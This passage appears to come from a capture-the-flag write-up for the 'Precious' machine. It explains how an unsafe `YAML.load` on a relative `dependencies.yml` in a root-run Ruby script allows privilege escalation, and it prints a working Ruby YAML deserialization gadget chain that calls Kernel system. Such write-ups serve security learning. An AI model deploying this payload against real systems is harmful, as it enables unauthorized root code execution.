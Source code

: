 ```ruby
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

This `ruby` file has a critical vulnerability, specifically in this function:

```ruby
def list_from_file
    YAML.load(File.read("dependencies.yml"))
```

Maybe you wonder "What is this code doing?" Well, if you look a little bit you can notice that this is loading a `dependencies.yml` file, but in the script, the `dependencies.yml` is not an absolute path, so if we create a malicious `dependencies.yml` file, it would be executed as root.
After a few minutes of research, I found [this](https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565#file-ruby_yaml_load_sploit2-yaml) and [this](https://blog.stratumsecurity.com/2021/06/09/blind-remote-code-execution-through-yaml-deserialization/) resources. 
To exploit this, we will copy the code from the first link, and we will save it in the `/tmp` directory on the victim machine:

```bash
henry@precious:~$ cd /tmp
henry@precious:/tmp$ nano dependencies.yml
henry@precious:/tmp$ cat dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
henry@precious:/tmp$ 
```

